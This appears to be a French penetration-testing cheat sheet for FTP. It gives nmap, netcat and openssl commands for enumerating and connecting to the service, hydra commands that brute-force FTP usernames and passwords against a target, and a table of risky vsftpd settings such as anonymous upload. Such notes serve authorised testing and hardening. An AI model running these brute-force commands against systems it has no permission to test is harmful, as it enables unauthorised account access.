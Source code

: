 File Transfer Protocol, port 21, TCP Transfert de fichier, non sécurisé contrairement à ses différentes variantes (sFTP, etc), les données sont transmises en clair.

---
### Enumeration

#### Nmap:

```bash
nmap -A --script ftp* -p 21 $ip
```

#### connection via netcat :

```bash
nc -nv $ip 21
```

#### Connection avec openssl (si le serveur utilise SSL/TLS):

```bash
openssl s_client -connect $ip:21 -starttls ftp
```

---
### Bruteforce

#### Bruteforce user :

```bash
hydra -L /usr/list/user.txt -p password1234 $ip ftp
```

#### Bruteforce password :

```bash
hydra -l user -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt $ip ftp
```

---
## Configuration potentiellement dangereuse

### - VSFTPd

| Settings                       |                                    Descriptions                                   |
| ------------------------------ | :-------------------------------------------------------------------------------: |
| anonymous\_enable=YES          |                        Permet l'identification en Anonymous                       |
| anon\_upload\_enable=YES       |                    Permet à l'utilisateur Anonymous d'uploader                    |
| anon\_mkdir\_write\_enable=YES |                Permet à l'utilisateur Anonymous de créer un dossier               |
| no\_anon\_password=YES         |               Ne pas demander de password à l'utilisateur Anonymous               |
| anon\_root=/home/username/ftp  |                      Le répertoire de l'utilisateur Anonymous                     |
| write\_enable=YES              | Autorise l'usage des commandes: STOR, DELE, RNFR, RNTO, MKD, RMD, APPE, and SITE? |
